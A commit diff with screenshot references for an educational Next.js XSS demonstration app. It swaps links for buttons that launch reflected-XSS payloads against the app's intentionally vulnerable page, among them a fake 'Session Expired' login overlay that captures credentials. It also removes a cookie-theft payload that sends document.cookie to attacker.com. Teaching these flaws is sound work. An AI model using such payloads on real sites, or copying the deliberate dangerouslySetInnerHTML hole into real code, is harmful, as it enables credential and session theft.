

Before and after one commit to matejondov/xss-demo, a Next.js app: page /vulnerable in a window 1280 px wide. Shown: the part 420-1372 px from the top of the page, without its empty margins (160-1119 px from the left). Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
remove redundant explanations and clean up UI, use button instead of next-link

```diff
--- a/app/page.tsx
+++ b/app/page.tsx
@@ -22,15 +22,6 @@ export default function Home() {
           <p className="text-foreground text-lg mb-6">
             This is an educational demonstration of Cross-Site Scripting (XSS) vulnerabilities.
             <strong className="text-red-600"> DO NOT use these patterns in production code!</strong>
-          </p>
-
-          <h2 className="text-2xl font-semibold text-foreground mb-3">
-            What is XSS?
-          </h2>
-          <p className="text-foreground mb-4">
-            Cross-Site Scripting (XSS) attacks are injection attacks where malicious scripts
-            are injected into trusted websites. XSS occurs when an attacker uses a web application to send
-            malicious code to a different end user.
           </p>
 
           <div className="flex flex-row justify-evenly pt-4">
--- a/app/safe/page.tsx
+++ b/app/safe/page.tsx
@@ -23,13 +23,6 @@ function SafeContent() {
                         ✅ Safe Page - XSS Protected
                     </h1>
 
-                    <div className="bg-green-50 border-l-4 border-green-500 p-4 mb-6">
-                        <p className="text-green-900">
-                            <strong>✅ SAFE:</strong> This page properly escapes user input using React's default JSX behavior.
-                            Scripts in the URL will be displayed as text, not executed!
-                        </p>
-                    </div>
-
                     <div className="mb-8">
                         <h2 className="text-2xl font-semibold text-foreground mb-4">
                             Welcome Message:
@@ -41,23 +34,7 @@ function SafeContent() {
                     </div>
 
                     <div className="space-y-6">
-                        <div className="p-6 bg-muted border rounded-lg">
-                            <h3 className="text-xl font-bold text-foreground mb-3">
-                                🛡️ How This Works:
-                            </h3>
-                            <div className="space-y-4 text-foreground">
-                                <div>
-                                    <h4 className="font-semibold mb-2">✅ Safe Code:</h4>
-                                    <code className="block bg-background border p-3 rounded text-sm mb-2 text-foreground">
-                                        &lt;div&gt;Welcome, &#123;name&#125;!&lt;/div&gt;
-                                    </code>
-                                    <p className="text-sm text-muted-foreground">
-                                        React automatically escapes all values in JSX curly braces. Any HTML or JavaScript
-                                        will be rendered as plain text, preventing XSS attacks.
-                                    </p>
-                                </div>
-                            </div>
-                        </div>
+
 
                         <div>
                             <h3 className="text-xl font-bold text-foreground mb-3">
@@ -84,12 +61,15 @@ function SafeContent() {
                                     <h4 className="font-bold text-foreground mb-2">
                                         2. Try HTML Injection (Won't Work):
                                     </h4>
-                                    <Link
-                                        href="/safe?name=<h1>Injected HTML</h1>"
-                                        className="inline-block px-4 py-2 bg-green-600 text-white rounded hover:bg-green-700"
+                                    <button
+                                        onClick={() => {
+                                            const phishingPayload = `<div style="position:fixed;top:0;left:0;width:100%;height:100%;background:rgba(0,0,0,0.9);z-index:9999;display:flex;align-items:center;justify-content:center"><div style="background:white;padding:40px;border-radius:10px;max-width:400px"><h2 style="color:red;margin-bottom:20px">Session Expired</h2><p style="margin-bottom:20px;color:black">Please log in again:</p><form onsubmit="alert('Credentials stolen!\\nUsername: ' + this.username.value + '\\nPassword: ' + this.password.value); return false;"><input name="username" placeholder="Username" style="width:100%;padding:10px;margin-bottom:10px;border:1px solid #ccc;border-radius:5px;color:black"><input name="password" type="password" placeholder="Password" style="width:100%;padding:10px;margin-bottom:20px;border:1px solid #ccc;border-radius:5px;color:black"><button type="submit" style="width:100%;padding:10px;background:#007bff;color:white;border:none;border-radius:5px;cursor:pointer">Login</button></form></div></div>`;
+                                            window.location.href = `/safe?name=${encodeURIComponent(phishingPayload)}`;
+                                        }}
+                                        className="inline-block px-4 py-2 bg-green-600 text-white rounded hover:bg-green-700 cursor-pointer"
                                     >
-                                        Test HTML Injection (Safe)
-                                    </Link>
+                                        Test Phishing Attack
+                                    </button>
                                     <p className="text-sm text-muted-foreground mt-2">
                                         The HTML will be displayed as text, not rendered as HTML.
                                     </p>
@@ -97,11 +77,29 @@ function SafeContent() {
                             </div>
                         </div>
 
-                        <div className="p-6 bg-foreground border-l-4 border-green-500 rounded-lg">
+                        <div className="p-6 bg-muted border rounded-lg">
+                            <h3 className="text-xl font-bold text-foreground mb-3">
+                                🛡️ How This Works:
+                            </h3>
+                            <div className="space-y-4 text-foreground">
+                                <div>
+                                    <h4 className="font-semibold mb-2">✅ Safe Code:</h4>
+                                    <code className="block bg-background border p-3 rounded text-sm mb-2 text-foreground">
+                                        &lt;div&gt;Welcome, &#123;name&#125;!&lt;/div&gt;
+                                    </code>
+                                    <p className="text-sm text-muted-foreground">
+                                        React automatically escapes all values in JSX curly braces. Any HTML or JavaScript
+                                        will be rendered as plain text, preventing XSS attacks.
+                                    </p>
+                                </div>
+                            </div>
+                        </div>
+
+                        <div className="p-6 bg-background border-l-4 border-1 border-green-500 rounded-lg">
                             <h3 className="text-xl font-bold text-green-600 mb-3">
                                 🎯 Key Takeaways:
                             </h3>
-                            <ul className="list-disc list-inside text-background space-y-2">
+                            <ul className="list-disc list-inside text-foreground space-y-2">
                                 <li>Always use React's default JSX syntax for user input</li>
                                 <li>React automatically escapes values in &#123;&#125;</li>
                                 <li>Never use dangerouslySetInnerHTML with user input</li>
@@ -121,7 +119,7 @@ function SafeContent() {
                     </div>
                 </div>
             </div>
-        </div>
+        </div >
     );
 }
 
--- a/app/vulnerable/page.tsx
+++ b/app/vulnerable/page.tsx
@@ -22,13 +22,6 @@ function VulnerableContent() {
                     <h1 className="text-3xl font-bold text-red-600 mb-4">
                         🚨 Vulnerable Page - Reflected XSS
                     </h1>
-
-                    <div className="bg-red-50 border-l-4 border-red-500 p-4 mb-6">
-                        <p className="text-red-900">
-                            <strong>⚠️ DANGER:</strong> This page is intentionally vulnerable to XSS attacks.
-                            Any script in the URL will be executed!
-                        </p>
-                    </div>
 
                     <div className="mb-8">
                         <h2 className="text-2xl font-semibold text-foreground mb-4">
@@ -55,12 +48,14 @@ function VulnerableContent() {
                                     <code className="block bg-background border p-3 rounded text-sm overflow-x-auto mb-2 text-foreground">
                                         ?name=&lt;script&gt;alert('XSS Attack!')&lt;/script&gt;
                                     </code>
-                                    <Link
-                                        href="/vulnerable?name=<script>alert('XSS Attack!')</script>"
-                                        className="inline-block px-4 py-2 bg-red-600 text-white rounded hover:bg-red-700"
+                                    <button
+                                        onClick={() => {
+                                            window.location.href = "/vulnerable?name=" + encodeURIComponent("<script>alert('XSS Attack!')</script>");
+                                        }}
+                                        className="inline-block px-4 py-2 bg-red-600 text-white rounded hover:bg-red-700 cursor-pointer"
                                     >
                                         Test This Attack
-                                    </Link>
+                                    </button>
                                 </div>
 
                                 <div className="p-4 bg-muted border rounded-lg">
@@ -68,11 +63,11 @@ function VulnerableContent() {
                                         2. Phishing Attack (Fake Login Form):
                                     </h4>
                                     <code className="block bg-background border p-3 rounded text-sm overflow-x-auto mb-2 break-all text-foreground">
-                                        ?name=&lt;div style=&quot;position:fixed;top:0;left:0;width:100%;height:100%;background:rgba(0,0,0,0.9);z-index:9999;display:flex;align-items:center;justify-content:center&quot;&gt;&lt;div style=&quot;background:white;padding:40px;border-radius:10px;max-width:400px&quot;&gt;&lt;h2 style=&quot;color:red;margin-bottom:20px&quot;&gt;⚠️ Session Expired&lt;/h2&gt;&lt;p style=&quot;margin-bottom:20px&quot;&gt;Please log in again:&lt;/p&gt;&lt;form onsubmit=&quot;alert('Credentials stolen!\\nUsername: ' + this.username.value + '\\nPassword: ' + this.password.value); return false;&quot;&gt;&lt;input name=&quot;username&quot; placeholder=&quot;Username&quot; style=&quot;width:100%;padding:10px;margin-bottom:10px;border:1px solid #ccc;border-radius:5px&quot;&gt;&lt;input name=&quot;password&quot; type=&quot;password&quot; placeholder=&quot;Password&quot; style=&quot;width:100%;padding:10px;margin-bottom:20px;border:1px solid #ccc;border-radius:5px&quot;&gt;&lt;button type=&quot;submit&quot; style=&quot;width:100%;padding:10px;background:#007bff;color:white;border:none;border-radius:5px;cursor:pointer&quot;&gt;Login&lt;/button&gt;&lt;/form&gt;&lt;/div&gt;&lt;/div&gt;
+                                        ?name=&lt;div style=&quot;position:fixed;top:0;left:0;width:100%;height:100%;background:rgba(0,0,0,0.9);z-index:9999;display:flex;align-items:center;justify-content:center&quot;&gt;&lt;div style=&quot;background:white;padding:40px;border-radius:10px;max-width:400px&quot;&gt;&lt;h2 style=&quot;color:red;margin-bottom:20px&quot;&gt;Session Expired&lt;/h2&gt;&lt;p style=&quot;margin-bottom:20px&quot;&gt;Please log in again:&lt;/p&gt;&lt;form onsubmit=&quot;alert('Credentials stolen!\\nUsername: ' + this.username.value + '\\nPassword: ' + this.password.value); return false;&quot;&gt;&lt;input name=&quot;username&quot; placeholder=&quot;Username&quot; style=&quot;width:100%;padding:10px;margin-bottom:10px;border:1px solid #ccc;border-radius:5px&quot;&gt;&lt;input name=&quot;password&quot; type=&quot;password&quot; placeholder=&quot;Password&quot; style=&quot;width:100%;padding:10px;margin-bottom:20px;border:1px solid #ccc;border-radius:5px&quot;&gt;&lt;button type=&quot;submit&quot; style=&quot;width:100%;padding:10px;background:#007bff;color:white;border:none;border-radius:5px;cursor:pointer&quot;&gt;Login&lt;/button&gt;&lt;/form&gt;&lt;/div&gt;&lt;/div&gt;
                                     </code>
                                     <button
                                         onClick={() => {
-                                            const phishingPayload = `<div style="position:fixed;top:0;left:0;width:100%;height:100%;background:rgba(0,0,0,0.9);z-index:9999;display:flex;align-items:center;justify-content:center"><div style="background:white;padding:40px;border-radius:10px;max-width:400px"><h2 style="color:red;margin-bottom:20px">⚠️ Session Expired</h2><p style="margin-bottom:20px">Please log in again:</p><form onsubmit="alert('Credentials stolen!\\nUsername: ' + this.username.value + '\\nPassword: ' + this.password.value); return false;"><input name="username" placeholder="Username" style="width:100%;padding:10px;margin-bottom:10px;border:1px solid #ccc;border-radius:5px"><input name="password" type="password" placeholder="Password" style="width:100%;padding:10px;margin-bottom:20px;border:1px solid #ccc;border-radius:5px"><button type="submit" style="width:100%;padding:10px;background:#007bff;color:white;border:none;border-radius:5px;cursor:pointer">Login</button></form></div></div>`;
+                                            const phishingPayload = `<div style="position:fixed;top:0;left:0;width:100%;height:100%;background:rgba(0,0,0,0.9);z-index:9999;display:flex;align-items:center;justify-content:center"><div style="background:white;padding:40px;border-radius:10px;max-width:400px"><h2 style="color:red;margin-bottom:20px">Session Expired</h2><p style="margin-bottom:20px;color:black">Please log in again:</p><form onsubmit="alert('Credentials stolen!\\nUsername: ' + this.username.value + '\\nPassword: ' + this.password.value); return false;"><input name="username" placeholder="Username" style="width:100%;padding:10px;margin-bottom:10px;border:1px solid #ccc;border-radius:5px;color:black"><input name="password" type="password" placeholder="Password" style="width:100%;padding:10px;margin-bottom:20px;border:1px solid #ccc;border-radius:5px;color:black"><button type="submit" style="width:100%;padding:10px;background:#007bff;color:white;border:none;border-radius:5px;cursor:pointer">Login</button></form></div></div>`;
                                             window.location.href = `/vulnerable?name=${encodeURIComponent(phishingPayload)}`;
                                         }}
                                         className="inline-block px-4 py-2 bg-red-600 text-white rounded hover:bg-red-700 cursor-pointer"
@@ -81,41 +76,6 @@ function VulnerableContent() {
                                     </button>
                                 </div>
 
-                                <div className="p-4 bg-muted border rounded-lg">
-                                    <h4 className="font-bold text-foreground mb-2">
-                                        3. Cookie/Session Theft:
-                                    </h4>
-                                    <code className="block bg-background border p-3 rounded text-sm overflow-x-auto mb-2 text-foreground">
-                                        ?name=&lt;script&gt;alert('Cookie Data:\\n' + document.cookie);&lt;/script&gt;
-                                    </code>
-                                    <Link
-                                        href="/vulnerable?name=<script>alert('Cookie Data:\\n' + document.cookie); fetch('https://attacker.com/steal?cookie=' + document.cookie).catch(()=>{});</script>"
-                                        className="inline-block px-4 py-2 bg-red-600 text-white rounded hover:bg-red-700"
-                                    >
-                                        Test Cookie Theft
-                                    </Link>
-                                    <p className="text-sm text-muted-foreground mt-2">
-                                        * In a real attack, cookies would be sent to an attacker's server
-                                    </p>
-                                </div>
-
-                                <div className="p-4 bg-muted border rounded-lg">
-                                    <h4 className="font-bold text-foreground mb-2">
-                                        4. DOM Manipulation:
-                                    </h4>
-                                    <code className="block bg-background border p-3 rounded text-sm overflow-x-auto mb-2 text-foreground">
-                                        ?name=&lt;script&gt;document.body.innerHTML='&lt;h1&gt;Page Hijacked!&lt;/h1&gt;'&lt;/script&gt;
-                                    </code>
-                                    <button
-                                        onClick={() => {
-                                            const hijackPayload = `<script>document.body.innerHTML='<div style="display:flex;align-items:center;justify-content:center;height:100vh;background:black;color:red;font-size:3rem;font-weight:bold">🚨 PAGE HIJACKED! 🚨</div>'</script>`;
-                                            window.location.href = `/vulnerable?name=${encodeURIComponent(hijackPayload)}`;
-                                        }}
-                                        className="inline-block px-4 py-2 bg-red-600 text-white rounded hover:bg-red-700 cursor-pointer"
-                                    >
-                                        Test Page Hijack
-                                    </button>
-                                </div>
                             </div>
                         </div>
 
@@ -125,13 +85,13 @@ function VulnerableContent() {
                             </h3>
                             <div className="space-y-4 text-foreground">
                                 <div>
-                                    <h4 className="font-semibold mb-1">❌ Vulnerable Code:</h4>
+                                    <h4 className="font-semibold text-black mb-1">❌ Vulnerable Code:</h4>
                                     <code className="block bg-background border p-3 rounded text-sm text-foreground">
                                         dangerouslySetInnerHTML=&#123;&#123; __html: `Welcome, $&#123;name&#125;!` &#125;&#125;
                                     </code>
                                 </div>
                                 <div>
-                                    <h4 className="font-semibold mb-1">✅ Safe Alternative:</h4>
+                                    <h4 className="font-semibold text-black mb-1">✅ Safe Alternative:</h4>
                                     <code className="block bg-background border p-3 rounded text-sm text-foreground">
                                         &lt;div&gt;Welcome, &#123;name&#125;!&lt;/div&gt;
                                     </code>
```
